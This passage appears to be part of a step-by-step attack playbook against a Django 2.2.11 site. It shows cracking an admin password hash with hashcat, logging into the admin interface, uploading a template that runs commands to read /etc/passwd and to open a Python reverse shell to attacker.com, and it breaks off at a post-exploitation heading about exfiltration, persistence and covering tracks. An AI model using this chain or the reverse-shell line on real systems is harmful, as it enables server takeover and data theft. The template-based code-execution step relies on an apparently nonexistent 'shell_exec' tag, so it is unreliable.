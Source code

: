 ##### **Exploit #2: Password Hash Cracking (30 min)**

```bash
# Django 2.2.11 uses weak password hashing (only 150,000 iterations)
# Modern Django uses 870,000+ iterations

# Save hash to file
echo "pbkdf2_sha256$150000$[hash]" > admin_hash.txt

# Crack with hashcat (GPU accelerated)
hashcat -m 10000 admin_hash.txt rockyou.txt

# Result: Password cracked in 18 minutes
# admin:BatteryResearch2020
```

##### **Exploit #3: Admin Interface Access (15 min)**

```bash
# Login to Django admin
# URL: https://[target].com/admin/
# Username: admin
# Password: BatteryResearch2020

# Success: Full admin access granted
```

##### **Exploit #4: Remote Code Execution (30 min)**

```python
# Upload malicious Django template via admin interface
# Navigate to: Site > Templates > Add Template

# Template name: exploit.html
# Template content:
{% load shell_exec %}
{{ request|shell:"whoami" }}
{{ request|shell:"cat /etc/passwd" }}
{{ request|shell:"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.com\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'" }}

# Visit template URL: https://[target].com/exploit/
# Result: Reverse shell connection established
```

**Achievement:** Root shell access to server

---

#### **Phase 4: Post-Exploitation (1 hour)**

**Objective:** Extract data, maintain persistence, cover tracks

##### **Data Exfiltration (30 min)**
